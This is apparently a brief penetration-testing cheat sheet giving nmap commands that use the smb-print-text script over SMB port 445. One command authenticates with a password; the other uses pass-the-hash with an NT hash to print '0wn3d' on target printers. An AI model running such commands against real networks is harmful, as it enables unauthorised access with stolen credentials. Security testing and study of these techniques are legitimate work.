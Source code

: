# Scanners

## 01 - Network Mapper

```
$ nmap -p 445 --script smb-print-text --script-args --script-args "smbusername='<username>',smbpassword='<password>'" <IP>/<CIDR>
```

Pass the Hash

```
$ nmap -p 445 --script smb-print-text --script-args "smbusername=<username>,smbhash=<nt_hash>,text='0wn3d'" <IP>/<CIDR>
```

---
## References

### Network Mapper

- [Network Mapper NSE Docs: `smb-print-text` Script](https://nmap.org/nsedoc/scripts/smb-print-text.html)